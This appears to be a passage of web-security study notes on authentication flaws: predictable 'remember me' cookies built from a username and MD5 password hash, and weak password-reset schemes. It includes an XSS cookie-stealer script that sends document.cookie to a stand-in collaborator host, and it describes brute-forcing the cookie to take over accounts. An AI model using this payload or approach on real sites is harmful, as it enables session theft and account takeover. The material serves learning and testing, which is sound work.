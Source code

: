 A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in". 

This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. As possessing this cookie effectively allows you to bypass the entire login process, it is best practice for this cookie to be impractical to guess. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp.

Ej:

```
stay-logged-in=Y2FybG9zOjA5ZjgzMTZlMjk2NDlhN2Y3OTVmNDE0YmEzODYwZmMw

Base64 decoded ->
carlos:09f8316e29649a7f795f414ba3860fc0

MD5 decrypted->
09f8316e29649a7f795f414ba3860fc0:dallas
```

So we can bruteforce the cookie instead of the login in order to take the account.

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnernability. Using techniques such as XSS to steal the cookie.

Example of cookie stealer:

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

## Resetting user passwords

There are different ways to implement a password reset functionality.

### Sending passwords by email

Some websites generate a new password and sends this to the user via email. Email is generally not considered secure given that inboxes are both persistent and not really designed for secure storage of confidential information.

### Resetting passwords using a URL

Another way to reset the password is by sending to the user a unique URL that takes the user to a password reset page. Less secure implementations of this method use a URL with an easily guessable parameter to identify which account is being reset.

An example:
